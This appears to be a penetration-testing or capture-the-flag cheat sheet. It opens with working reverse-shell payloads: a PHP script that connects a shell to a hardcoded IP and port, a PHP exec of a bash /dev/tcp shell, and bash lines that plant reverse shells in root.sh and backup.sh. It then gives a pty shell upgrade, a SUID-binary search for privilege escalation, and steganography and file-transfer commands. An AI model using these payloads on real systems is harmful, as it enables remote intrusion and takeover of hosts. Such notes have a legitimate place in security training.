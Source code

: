 ### Reverse Shell PayloadS

```php
<?php
$ip = '192.168.1.10';
$port = 4444;

$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1'");
?>
```

```bash
echo 'bash -i >& /dev/tcp/IP/5555 0>&1' > root.sh
```

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/IP/5555 0>&1' > backup.sh
```

### Shell Upgrade:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### SUID Binaries

```bash
find / -perm -u=s -type f 2>/dev/null
```

### Steganography

```bash
exiftool fileName.jpg
steghide extract -sf fileName.jpg
binwalk -e fileName.png
```

Binwalk fix:

```bash
sed -i 's/CS_ARCH_ARM64/CS_ARCH_AARCH64/g' /usr/lib/python3/dist-packages/binwalk/modules/disasm.py
```

### Python Simple Server

```bash
python -m SimpleHTTPServer
```

### Secure File Transfer

```bash
scp userName@IP:fileName.jpg .
```
